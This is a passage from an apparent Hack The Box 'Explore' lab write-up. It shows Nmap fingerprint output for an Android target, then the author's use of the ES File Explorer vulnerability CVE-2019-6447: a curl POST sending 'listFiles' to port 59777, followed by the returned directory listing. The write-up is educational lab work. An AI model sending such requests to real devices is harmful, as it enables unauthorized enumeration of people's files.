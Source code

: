 ```markdown
SF:in;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nMethod\x20not\x2
SF:0supported:\x20OPTIONS")%r(RTSPRequest,BB,"HTTP/1\.0\x20400\x20Bad\x20R
SF:equest\r\nDate:\x20Mon,\x2030\x20Aug\x202021\x2011:34:58\x20GMT\r\nCont
SF:ent-Length:\x2039\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r
SF:\nConnection:\x20Close\r\n\r\nNot\x20a\x20valid\x20protocol\x20version:
SF:\x20\x20RTSP/1\.0")%r(Help,AE,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDa
SF:te:\x20Mon,\x2030\x20Aug\x202021\x2011:35:13\x20GMT\r\nContent-Length:\
SF:x2026\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection
SF::\x20Close\r\n\r\nInvalid\x20request\x20line:\x20HELP")%r(SSLSessionReq
SF:,DD,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon,\x2030\x20Aug\x
SF:202021\x2011:35:13\x20GMT\r\nContent-Length:\x2073\r\nContent-Type:\x20
SF:text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r\nInvalid\
SF:x20request\x20line:\x20\x16\x03\0\0S\x01\0\0O\x03\0\?G\?\?\?,\?\?\?`~\?
SF:\0\?\?{\?\?\?\?w\?\?\?\?<=\?o\?\x10n\0\0\(\0\x16\0\x13\0")%r(TerminalSe
SF:rverCookie,CA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nDate:\x20Mon,\x203
SF:0\x20Aug\x202021\x2011:35:13\x20GMT\r\nContent-Length:\x2054\r\nContent
SF:-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnection:\x20Close\r\n\r
SF:\nInvalid\x20request\x20line:\x20\x03\0\0\*%\?\0\0\0\0\0Cookie:\x20msts
SF:hash=nmap")%r(TLSSessionReq,DB,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nD
SF:ate:\x20Mon,\x2030\x20Aug\x202021\x2011:35:13\x20GMT\r\nContent-Length:
SF:\x2071\r\nContent-Type:\x20text/plain;\x20charset=US-ASCII\r\nConnectio
SF:n:\x20Close\r\n\r\nInvalid\x20request\x20line:\x20\x16\x03\0\0i\x01\0\0
SF:e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");
Service Info: Device: phone

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug 30 07:31:50 2021 -- 1 IP address (1 host up) scanned in 124.50 seconds
```

The Nmap scan revealed several open ports, several of which are seemingly designed to lead the user down a rabbit hole. Of all of the things I've learned, perhaps the most important is to always try to exhaust the low-hanging fruit before going down rabbit holes. Given my relative lack of experience testing Android devices, I had relatively little way to gauge the exploitability of each service exposed to external users. Whereas my initial explorations into most services were fruitless, I managed to find an interesting writeup about the ES Explorer service by [KnownSec](https://medium.com/@knownsec404team/analysis-of-es-file-explorer-security-vulnerability-cve-2019-6447-7f34407ed566). Essentially, a vulnerability in the application identified in 2019 allows remote unauthenticated users to execute a number of commands which allows for system enumeration. None of the commands have any documented code execution mechanisms, but that doesn't mean that valuable information can't be gained just using the available commands and some bash trickery.

```shell
┌──(kali@kali)-[~/htb/explore/enum]
└─$ curl --header "Content-Type: application/json" --request POST --data "{\"command\":\"listFiles\"}" http://10.10.10.247:59777 | tee listFiles.out
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
100  5029  100  5006  100    23  52694    242 --:--:-- --:--:-- --:-[:--     0
{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", },
{"name":"vndservice_contexts", "time":"9/2/21 07:28:53 AM", "type":"file", "size":"65.00 Bytes (65 Bytes)", },
{"name":"vendor_service_contexts", "time":"9/2/21 07:28:53 AM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_seapp_contexts", "time":"9/2/21 07:28:53 AM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_property_contexts", "time":"9/2/21 07:28:53 AM", "type":"file", "size":"392.00 Bytes (392 Bytes)", },
{"name":"vendor_hwservice_contexts", "time":"9/2/21 07:28:53 AM", "type":"file", "size":"0.00 Bytes (0 Bytes)", },
{"name":"vendor_file_contexts", "time":"9/2/21 07:28:53 AM", "type":"file", "size":"6.92 KB (7,081 Bytes)", },
…
┌──(kali@kali)-[~/htb/explore/enum]
```